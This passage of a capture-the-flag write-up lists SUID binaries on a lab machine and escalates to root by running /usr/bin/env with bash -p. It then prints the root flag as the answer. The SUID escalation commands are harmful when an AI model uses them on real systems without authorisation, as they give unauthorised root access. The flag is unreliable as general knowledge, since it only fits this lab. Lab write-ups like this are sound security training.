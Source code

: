 ```
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
```

For this particular lab we will be using the `/usr/bin/env` to escalate our privileges. The exploit can be found on GTFOBins.

![3](https://github.com/Knign/Write-ups/assets/110326359/45ea66cb-5cb7-4efa-b0fe-9b908c9d929a)

Let's use the exploit.

```
namelessone@anonymous:~$ /usr/bin/env /bin/bash -p
/usr/bin/env /bin/bash -p
bash-4.4# id
id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

We can now read the root flag.

```
bash-4.4# cat /root/root.txt
cat /root/root.txt
4d930091c31a622a7ed10f27999af363
```
### Answer
```
4d930091c31a622a7ed10f27999af363
```
